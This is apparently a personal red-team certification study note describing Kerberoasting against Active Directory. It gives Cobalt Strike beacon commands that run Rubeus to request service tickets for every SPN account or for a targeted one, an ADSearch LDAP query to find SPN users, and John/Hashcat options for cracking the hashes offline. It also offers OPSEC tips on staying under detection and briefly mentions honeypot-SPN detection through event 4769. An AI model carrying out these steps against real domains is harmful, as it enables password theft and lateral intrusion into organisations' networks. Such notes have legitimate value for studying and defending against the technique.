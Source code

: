 
Kerberoasting is a technique for requesting [[Ticket Granting Service (TGS)]] for services running under the context of domain accounts and cracking them offline to reveal their plaintext passwords.

Rubeus `kerberoast` can be used to perform the kerberoasting.  Running it without further arguments will roast every account in the domain that has an [[Service Principal Name (SPN)]] (excluding krbtgt).

## 🖊️ via Cobalt Strike

1) Kerberoast every account (not OPSEC)
   
   `beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /simple /nowrap`

2) These hashes can be cracked offline to recover the plaintext passwords for the accounts.  Use `--format=krb5tgs --wordlist=wordlist hashes` for  [[JohnTheRipper]] or `-a 0 -m 13100 hashes wordlist` for [[Hashcat]] .

⚠  There is some hash format incompatibility with john.  Removing the SPN so it became: `$krb5tgs$23$*mssql_svc$dev.cyberbotic.io*$6A9E[blah]` seemed to address the issue.

3) Roasting every account is very noisy and not OPSEC, a much safer approach is to enumerate possible candidates first and roast them selectively.  This LDAP query will find domain users who have an SPN set.

`beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName`

4) Once you pick a user, roast them individually

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap`




### ⚠ Opsec

By default, Rubeus will roast every account that has an SPN.  Honey Pot accounts can be configured with a "fake" SPN, which will generate a 4769 event when roasted.  Since these events will never be generated for this service, it provides a high-fidelity indication of this attack.


### Properties
---
📆 created   {{18-02-2024}} 15:15
🏷️ tags: #redteam #crto 

---

